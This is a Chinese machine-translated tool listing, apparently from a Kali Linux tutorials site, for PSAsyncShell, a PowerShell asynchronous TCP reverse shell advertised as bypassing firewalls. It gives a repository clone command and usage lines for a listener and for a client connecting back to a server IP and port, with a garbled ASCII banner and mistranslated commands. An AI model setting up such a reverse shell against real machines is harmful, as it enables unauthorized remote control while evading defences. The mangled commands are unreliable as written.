

# PSAsyncShell : PowerShell 异步 TCP 反向外壳

> 原文：<https://kalilinuxtutorials.com/psasyncshell/>

.png)

**PSAsyncShell** 是一个用纯 PowerShell 编写的异步 TCP 反向 Shell。

与其他反向 shells 不同，所有的通信和执行流都是异步完成的，允许绕过一些防火墙和一些针对这种远程连接的对策。

此外，该工具还具有命令历史记录、屏幕擦除、文件上传和下载、分块信息和反向 Base64 URL 编码流量等功能。

# 要求

*   PowerShell 4.0 或更高版本

# 下载

建议克隆完整的存储库或下载 zip 文件。您可以通过运行以下命令来实现这一点:

**git 克隆 https://github.com/JoelGMSec/PSAsyncShell**

## 使用

**。\ psasyncshell . PS1-h
*_**_ _ _ _ _ _ _ | _ \/*|/\ _*/*| | |*_*| | | | |*)_ _ _ _ _ _ \/_ \/| | | ' _ \/_ _ _ _ _ _ | ' _ \/_ \ | ' _ \/_ \ |
|/*/*\ _*\\ |*| | | |(_*| |*)| | |/| |*| |*/*/_ _/_*，|*|*| |*/| | | | ^ _ ^ | ^ _ ^ |*/
————————————————
信息:此工具帮助您获得 \ psasyncshell . PS1-s-p Listen _ port
监听来自客户端
的新连接。\ PSAsyncShell . PS1-c server _ IP server _ port
将客户端连接到 PSAsyncShell 服务器
警告:各部分之间的所有信息将以不加密方式发送
下载&上传功能不使用多部分***

[**Download**](https://github.com/JoelGMSec/PSAsyncShell)